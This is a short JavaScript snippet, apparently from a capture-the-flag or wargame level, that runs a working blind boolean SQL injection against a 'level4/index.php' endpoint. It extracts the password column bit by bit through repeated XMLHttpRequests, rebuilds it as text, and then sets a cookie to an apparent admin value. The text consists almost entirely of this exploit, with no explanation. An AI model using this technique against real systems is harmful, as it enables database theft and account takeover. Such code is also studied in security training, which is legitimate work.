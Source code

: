 function go(i,j){var xhr = new XMLHttpRequest(); xhr.open('GET','/level4/index.php?action=pm&id=1 and substr(lpad(bin(ascii(substr((select pass from level4 limit 1,1),' + i + ',1))),8,0),' + j + ',1)'); xhr.send(null); xhr.onreadystatechange = function() {if(xhr.readyState == 4 && xhr.status == 200){rst[i-1][j-1] = ~~!!xhr.responseText.match('admin'); console.log(rst[i-1]); if(rst[i-1].toString().replace(/,/g,'').length == 8){rst[i-1] = (rst[i-1].toString().replace(/,/g,''))}}};}
﻿
var rst = []; for(var i=1; i<=32; i++){rst[i-1] = []; for(var j=1;j<=8;j++){go(i,j)}}
var str = ''; for(var k = 0; k<rst.length; k++){str += String.fromCharCode(parseInt(rst[k],2).toString())}

document.cookie = "admin%2598aa0ec014a46e34571affaf88999ebb";
